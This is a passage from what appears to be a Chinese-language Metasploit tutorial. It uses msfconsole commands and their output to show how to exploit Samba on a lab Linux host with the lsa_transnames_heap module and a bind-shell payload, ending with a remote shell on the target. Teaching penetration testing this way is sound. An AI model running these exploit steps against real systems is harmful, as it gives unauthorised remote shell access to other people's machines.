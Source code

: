 ```
msf > search Samba 
```

1.  该命令将提供 Samba 的各种辅助和利用模块的列表。我们将使用列为良好排名利用的`exploit/linux/samba/lsa_transnames_heap`模块。因此，它将更有可能利用目标。让我们将利用设置为活动状态并设置参数。

```
msf > use exploit/linux/samba/lsa_transnames_heap
msf exploit(lsa_transnames_heap) > show options
Module options (exploit/linux/samba/lsa_transnames_heap):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST yes The target address
RPORT 445 yes Set the SMB service port
SMBPIPE LSARPC yes The pipe name to use
Exploit target:
Id Name
-- ----
0 Linux vsyscall
msf exploit(lsa_transnames_heap) > set RHOST 192.168.56.101
RHOST => 192.168.56.101
msf exploit(lsa_transnames_heap) > 
```

1.  我们的下一个任务是选择有效载荷。我们必须记住一件事，即我们正在针对 Linux 机器，因此我们必须为渗透过程选择一个 Linux 有效载荷。我们将使用`linux/x86/shell_bind_tcp`有效载荷，它与我们在之前的 Windows 示例中分析的`bind_tcp`有效载荷类似。

```
msf exploit(lsa_transnames_heap) > set payload linux/x86/shell_bind_tcp
payload => linux/x86/shell_bind_tcp
msf exploit(lsa_transnames_heap) > show options
Module options (exploit/linux/samba/lsa_transnames_heap):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST 192.168.56.101 yes The target address
RPORT 445 yes Set the SMB service port
SMBPIPE LSARPC yes The pipe name to use
Payload options (linux/x86/shell_bind_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
LPORT 4444 yes The listen port
RHOST 192.168.56.101 no The target address 
```

1.  我们现在已经准备好了，我们的最后一步将是提供利用命令来开始利用过程：

```
msf exploit(lsa_transnames_heap) > exploit
[*] Started bind handler
[*] Creating nop sled....
[*] Trying to exploit Samba with address 0xffffe410...
[*] Connecting to the SMB service... 
```

成功执行利用后，我们将获得与目标机器的 shell 连接。该过程与我们在之前的示例中讨论的非常相似。唯一的区别在于选择利用和有效载荷。尝试不同的利用和有效载荷组合，将更好地帮助您理解它。
